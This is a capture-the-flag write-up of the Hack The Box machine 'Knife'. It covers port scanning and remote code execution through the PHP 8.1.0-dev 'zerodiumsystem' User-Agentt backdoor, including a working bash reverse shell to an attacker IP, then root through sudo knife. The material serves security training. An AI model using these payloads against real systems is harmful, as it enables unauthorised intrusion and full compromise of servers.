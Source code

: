 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Knife is a quick and fun easy box where we have to abuse of the User-Agent of PHP 8.1.0-dev to have RCE and after that be root by taking advantage of the Knife binary"
date: 2023-01-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-knife/new3.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - PHP 8.1.0-dev - 'User-Agent' [RCE]
  - Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
---
```


<p align="center">
<img src="/assets/images/htb-writeup-knife/knife_logo.png">
</p>

Knife is a quick and fun easy box where we have to abuse of the User-Agent of PHP 8.1.0-dev to have RCE and after that be root by taking advantage of the Knife binary.

## PortScan

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-10 13:57 CST
Nmap scan report for 10.10.10.242
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

The Knife website runs on port 80 and has the following technologies reported by wappalyzer 

![](/assets/images/htb-writeup-knife/website1.png)

## Enumeration

I use curl and I see this that version of PHP is vulnerable to RCE
```bash
curl -s http://10.10.10.242 -I
```
```bash
HTTP/1.1 200 OK
Date: Tue, 10 Jan 2023 20:05:33 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

We can found information here 
- [https://www.exploit-db.com/exploits/49933](https://www.exploit-db.com/exploits/49933)

I can abuse of the User-Agent because is vulnerable to RCE

```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text
```
```bash
uid=1000(james) gid=1000(james) groups=1000(james)
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO

***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```

And is vulnerable so we can send a reverse shell 
```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.21/443 0>&1\"');" | html2text
```
```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.242] 60468
bash: cannot set terminal process group (983): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

We can have a best bash terminal so we can do
```bash
script /dev/null -c bash
Ctrl + z
stty raw -echo; fg
reset xterm
```
## User flag

We can see the first flag

```bash
james@knife:~$ cat user.txt 
9adc315d20ef969531a7b07c66a31d19
```

## Root

After enumerating the system I can see that I can run this binary as root, we can use Gtfobins

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

-[https://gtfobins.github.io/gtfobins/knife/#sudo](https://gtfobins.github.io/gtfobins/knife/#sudo)

We follow the instructions and we're root

```bash
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
# bash
root@knife:/home/james# cd /root
root@knife:~# cat root.txt 
f8c5f763d30a3ed17dd24c4c216fd87b
```

## Another way to be root

You can abuse of the pkexec because is SUID but I won't do it

```bash
james@knife:/$ find -perm -4000 2>/dev/null | grep -v snap
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/bin/sudo
./usr/bin/su
./usr/bin/fusermount
./usr/bin/pkexec
./usr/bin/gpasswd
./usr/bin/passwd
./usr/bin/umount
./usr/bin/chfn
./usr/bin/chsh
./usr/bin/mount
./usr/bin/newgrp
./usr/bin/at
```

-[https://github.com/Almorabea/pkexec-exploit](https://github.com/Almorabea/pkexec-exploit)

Only transfer the script to the machine and execute and that's all




